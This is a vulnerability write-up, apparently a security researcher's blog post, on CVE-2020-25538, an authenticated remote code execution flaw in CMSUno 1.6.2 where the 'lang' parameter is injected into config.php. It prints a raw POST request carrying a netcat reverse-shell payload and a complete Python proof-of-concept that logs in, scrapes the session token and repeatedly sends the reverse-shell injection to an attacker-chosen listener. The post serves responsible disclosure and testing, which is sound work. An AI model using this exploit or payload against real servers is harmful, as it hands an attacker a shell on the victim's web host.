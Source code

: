 ```yaml
---
title: CMSUno 1.6.2 | RCE [Authenticated] (config.php) | CVE-2020-25538
author: Fatih Çelik
date: 2020-09-30 11:33:00 +0800
categories: [Vulnerability Research]
tags: [vulnerability research]
math: true
mermaid: true
---
```


**Vendor**:  https://github.com/boiteasite/cmsuno/

**Version**: 1.6.2

**Vulnerability**: Code Injection

**CVE**: CVE-2020-25538

**Exploit-DB**: https://www.exploit-db.com/exploits/48996

## **Analysis**

When I read the source code of the "/uno/central.php" file I realized the web application operates the language functionality with a file named "config.php". So application includes this file in some pages. Below the initial content of the config.php file.

![](/photos/cmsuno-1.png)

If I am able to change the content of the "config.php" file, this file will be imported in the "uno.php" page and I will be able to run PHP code on the server. config.php file will be imported like below in uno.php file.

![](/photos/cmsuno-2.png)

So good. But how am I able to do changes in "config.php" file. Let's look at the source code of the "/uno/central.php" file.

![](/photos/cmsuno-3.png)

You can see above, if some conditions are met, application will insert $_POST['lang'] parameter's value into config.php file. So, if I send the below POST request to that endpoint, I will change the content of the config.php file and my malicious code will be run in uno.php file.

**POST Request:**

```
POST /cmsuno/uno/central.php HTTP/1.1
Host: 192.168.1.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: */*
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 146
Origin: http://192.168.1.9
Connection: close
Referer: http://192.168.1.9/cmsuno/uno.php
Cookie: PHPSESSID=05hdpbc7jvk4qc2u7mloqdlvpc

action=sauvePass&unox=4b6c39808b374b0fd7a5ab1dd81c07a8&user0=&pass0=&user=&pass=&lang=en";system('nc.traditional 127.0.0.1 9090 -e bin/bash');?>//
```

After sending this request content of the config.php file like below.

![](/photos/cmsuno-4.png)

Finally, if I go to the uno.php page, my code will be run and I will get a reverse shell like below.

![](/photos/cmsuno-5.png)

## Exploit

I wrote the PoC for this vulnerability. You can use my PoC code below to test your version is vulnerable or not. Don't forget the get backup of your config.php file.

```python
import requests
from bs4 import BeautifulSoup
import lxml
import json

username = input("username: ")
password = input("password: ")
root_url = input("Root URL: http://192.168.1.9/cmsuno --> ")
listener_ip = input("Your ip: ")
listener_port = input("Your port for reverse shell: ")
login_url = root_url + "/uno.php"
vulnerable_url = root_url + "/uno/central.php"

session = requests.Session()
request = session.get(login_url)

# Get the unox value
soup = BeautifulSoup(request.text,"lxml")
unox = soup.find("input",{'name':'unox'})['value']

# Login 
body = {"unox":unox,"user":username,"pass":password}
session.post(login_url, data=body)

# Get the second unox value
request = session.get(login_url)
unox = soup.find("input",{'name':'unox'})['value']

# Exploit
header = {
"Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
"User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:80.0) Gecko/20100101 Firefox/80.0",
"Accept":"*/",
"Accept-Encoding": "gzip, deflate",
"X-Requested-With": "XMLHttpRequest",
"Origin": login_url,
"Connection": "close",
"Referer": login_url
}

payload = 'en";system(\'nc.traditional {} {} -e /bin/bash\');?>// '.format(listener_ip,listener_port)

while True:
	body = 'action=sauvePass&unox={}&user0=&pass0=&user=&pass=&lang={}'.format(unox,payload)
	session.post(vulnerable_url, data=(json.dumps(body)).replace("\\","")[1:-1],headers=header)
	request = session.get(login_url)
	text = request.text
	soup = BeautifulSoup(text,"lxml")
	script = soup.findAll('script')[1].string
	data = script.split("Unox='")[1]
	unox = data.split("',")[0]
```

![](/photos/cmsuno-6.png)

## Disclosure Timeline

12 September 2020 - First Contact

29 September 2020 - Released CMSUno Version 1.6.3

30 September 2020 - Responsible Disclosure
